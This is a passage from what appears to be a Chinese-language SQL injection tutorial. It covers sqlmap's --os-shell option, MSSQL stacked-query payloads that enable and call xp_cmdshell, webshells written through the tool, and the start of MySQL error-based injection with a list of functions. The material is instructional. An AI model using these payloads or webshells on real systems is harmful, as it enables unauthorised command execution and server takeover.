 ![](http://image.ixysec.com/image/sql/sql037.png)

-–os-shell获取一个cmdShell，用于执行cmd命令，对于MSSQL该选项是调用xp..cmdshell存储扩展进行执行命令的;对于MySQL该选项是通过into outfile写入shell,然后再执行命令的,因此对于MySQL需要绝对路径

![](http://image.ixysec.com/image/sql/sql038.png)
对于MySQL os-shell写入的两个马儿说明：第一个是一个小马(上传文件用)；第二个是一个一句话，密码为cmd


MSSQL调用xp..cmdshell执行命令
```
;exec master..xp_cmdshell 'whoami';--
```
![](http://image.ixysec.com/image/sql/sql039.png)

可以使用如下命令来启用xp_cmdshell
```
;EXEC sp_configure 'show advanced options',1;    //允许修改高级参数
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;    //打开xp_cmdshell扩展
RECONFIGURE;--
```
![](http://image.ixysec.com/image/sql/sql040.png)

![](http://image.ixysec.com/image/sql/sql041.png)

也可以直接导出一句话木马，需要获取绝对路径。
system权限，这个权限是根据启动MSSQL服务的账户权限而定的。

![](http://image.ixysec.com/image/sql/sql042.png)


这种直接在注入点后以;号分割多条SQL语句执行叫做  堆叠查询，这种方式为攻击者提供了更多自由和可能。
遗憾的是，并非所有数据库服务器平台都支持堆叠查询。例如，使用ASP.NET和PHP访问Microsoft SQL Server时允许堆叠查询，但如果使用Java来访问，就不允许。使用PHP访问PostgreSQL时，PHP允许堆叠查询；但如果访问MySQL，PHP不允许堆叠查询。


### 根据页面回显不同分类
#### 普通注入
  前面介绍到的那些有回显的注入，就是这里所说的普通注入，因为它们无论是以什么提交方式进行注入的，无论是什么数据库，无论执行的SQL语句是什么，它们都有一个共同的特点，那就是有正常回显。
  
#### 报错注入
报错注入是利用数据库的一些函数和特性，利用报错将想要的信息或数据夹在报错信息中显示出来。

##### MySQL报错注入
Mysql报错注入有一个限制条件：
```
echo  "<br>".mysql_error();
```
只有将SQL语句执行的错误信息打印出来才可以看到报错，所以报错注入需要程序能够打印SQL语句执行错误信息。

MySQL中能够用在报错注入的函数有：
```
count()、rand()、group by
updatexml()
extractvalue()
geometrycollection()
multipoint()
polygon()
multipolygon()
linestring()
multilinestring()
exp()
等等
```
这里我只讲前三种，其他函数的具体用法自行百度或者查询MySQL手册。
